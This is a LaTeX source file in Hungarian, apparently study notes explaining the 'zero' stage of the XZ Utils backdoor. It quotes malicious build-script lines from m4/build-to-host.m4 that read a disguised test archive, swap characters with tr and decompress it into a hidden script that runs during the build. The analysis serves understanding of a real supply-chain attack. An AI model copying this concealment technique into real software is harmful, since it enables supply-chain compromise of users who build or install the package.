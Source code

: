 \documentclass[11pt]{article}
\begin{document}
\section{Az XZ Backdoor technikai oldala}\cite{Coldwind_2024}\cite{Freund_2024}

\subsection{Megjegyzések}

A backdoor becsempészése a bináris fájlokba három lépésben történt: nulladik, első, és második.
Az 5.6.0 illetve 5.6.1-es verzió különbségek minimális eltéréssel rendelkeztek, ezeket igyekszem kiemelni a példa kódokban is.

\subsection{Nulladik lépés -- előkészületek}
Ahogy Andres is kiemelte, a gyanús dolgok az \lstinline{"m4/build-to-host.m4"} fájlban kezdődtek.

Releváns kód részletek:
\begin{lstlisting}[language=bash]
...
gl_[$1]_config='sed \"r\n\" $gl_am_configmake | eval $gl_path_map | $gl_[$1]_prefix -d 2>/dev/null'
...
gl_path_map='tr "\t \-_" " \t_\-"'
...
\end{lstlisting}
Ez a kód valamikor a build process közben fut le, és kicsomagolja az első lépéshez szükséges szkripteket.
\begin{enumerate}
  \item A \lstinline{"tests/files/bad-3-corrupt\_lzma2.xz"} bájtjait kiolvassa és közvetíti a standard kimenet / bemenetre a következő lépéshez. A végén pedig hozzáad egy sortörést \lstinline{("\textbackslash n")} is.
  \item A második lépésben futtatja a \lstinline{tr} parancsot, ami felcserél bizonyos karaktereket más karakterekre.
  Például az \lstinline{echo "BASH" | tr "ABCD" "1234"} parancs \lstinline{21SH} eredményt fog visszatéríteni. Visszatérve a kódra,  következő parancs hajtódik végre \lstinline{tr "\t \-_" " \t_\-"}, ami a következő lépéseket hajtja végre a \lstinline{tests/files/bad-3-corrupt_lzma2.xz} fájlban:
  \begin{itemize}
      \item 0x09 (\textbackslash t)-t kicseréli 0x20-ra,
      \item 0x20 (szóköz)-t kicseréli 0x09-ra,
      \item 0x2d (-)-t kicseréli 0x5f-re,
      \item 0x5f (\_)-t kicseréli 0x2d-re,
  \end{itemize}
  Ezzel kijavítódik a korruptált fájl és ezáltal ismét egy megfelelő xz folyamot alkot.
  \item Végül ezt a kijavított xz folyamot hibák figyelmen kívül hagyásával kicsomagolta. 
  Ennek eredménye az 1. lépés szkriptje, amely azonnal végrehajtásra kerül.
\end{enumerate}
\end{document}
